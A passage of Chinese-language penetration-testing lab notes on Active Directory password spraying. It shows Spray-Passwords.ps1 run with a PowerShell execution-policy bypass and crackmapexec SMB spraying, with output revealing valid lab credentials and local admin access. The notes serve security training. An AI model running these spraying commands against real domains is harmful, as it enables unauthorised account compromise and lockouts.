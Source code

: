 `$SearchString`：LDAP 路徑，指定要查詢的 AD 網域。
"pete"：測試登入的 AD 使用者名稱。
"Nexus123!"：測試用的密碼。
>> object 建立，代表密碼正確

若密碼不正確，會顯示 password incorrect\
![image](https://hackmd.io/_uploads/SyaC9yAo1g.png)

#### 撰寫腳本
可以使用現成的 [Spray-Passwords.ps1](https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)
```
PS C:\Tools> powershell -ep bypass
PS C:\Tools> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'pete' = 'Nexus123!'
Guessed password for user: 'jen' = 'Nexus123!'
Users guessed are:
 'pete' with password: 'Nexus123!'
 'jen' with password: 'Nexus123!'
```
> 提供了兩組有效的憑證，密碼為 `Nexus123！`

#### 2. 使用 SMB（傳統方法、較為顯眼）
透過 SMB（Server Message Block）協議驗證帳戶，每次嘗試都會建立完整的 SMB 連線，因此網路流量較大。\
使用 [crackmapexec](https://github.com/Porchetta-Industries/CrackMapExec) 工具（Kali Linux）：
```
┌──(chw㉿CHW)-[~]
└─$ cat users.txt                                       
dave
jen
pete

┌──(chw㉿CHW)-[~]
└─$ crackmapexec smb 192.168.151.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
SMB         192.168.151.75  445    CLIENT75         [*] Windows 11 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.151.75  445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.151.75  445    CLIENT75         [+] corp.com\jen:Nexus123! 
SMB         192.168.151.75  445    CLIENT75         [-] corp.com\pete:Nexus123! STATUS_ACCOUNT_LOCKED_OUT 

```
> `-d corp.com`: 設定目標 AD Domain\
`--continue-on-success`: 讓工具在找到有效帳戶後繼續測試

crackmapexec 在開始 password spraying 之前不會檢查網域的密碼策略。因此，我們應該謹慎使用這種方法鎖定使用者帳戶

假設 dave 是 CLIENT75 上的本機管理員。讓我們使用 crackmapexec 和密碼 Flowers1 來瞄準這台機器
```
┌──(chw㉿CHW)-[~]
└─$ crackmapexec smb 192.168.151.75 -u dave -p 'Flowers1' -d corp.com
SMB         192.168.151.75  445    CLIENT75         [*] Windows 11 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.151.75  445    CLIENT75         [+] corp.com\dave:Flowers1 (Pwn3d!)
```
> `Pwn3d!` 表示擁有本機管理員權限
